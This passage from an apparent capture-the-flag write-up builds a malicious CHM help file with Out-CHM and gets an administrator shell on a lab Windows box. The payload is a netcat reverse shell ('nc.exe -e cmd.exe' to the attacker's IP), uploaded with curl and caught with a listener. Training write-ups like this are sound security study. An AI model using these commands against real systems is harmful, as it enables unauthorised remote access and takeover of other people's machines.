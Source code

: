After some testing on my local machines, I managed to generate the correct `.chm` file:

{% highlight powershell %}
PS C:\Users\rizemon\Desktop> Import-Module .\Out-CHM.ps1
PS C:\Users\rizemon\Desktop> Out-CHM -Payload "C:\\tmp\\nc.exe -e cmd.exe 10.10.XX.XX 1337" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Microsoft HTML Help Compiler 4.74.8702

Compiling c:\Users\root\Desktop\doc.chm


Compile time: 0 minutes, 0 seconds
2       Topics
4       Local links
4       Internet links
0       Graphics


Created c:\Users\rizemon\Desktop\doc.chm, 13,438 bytes
Compression increased file by 142 bytes.
{% endhighlight %}

After transfering the `doc.chm` to my Kali's web server directory, I uploaded it to `C:\Docs` as `instructions.chm`.

{% highlight raw %}
C:\Docs>curl http://10.10.XX.XX/doc.chm > instructions.chm
curl http://10.10.XX.XX/doc.chm > instructions.chm
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 13436  100 13436    0     0  13436      0  0:00:01 --:--:--  0:00:01 18687
{% endhighlight %}

And started our listener:

{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

After a while, the `instructions.chm` disappeared and look at what we got on our listener!

{% highlight raw %}
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.151] 49709
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sniper\administrator

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
5624XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !
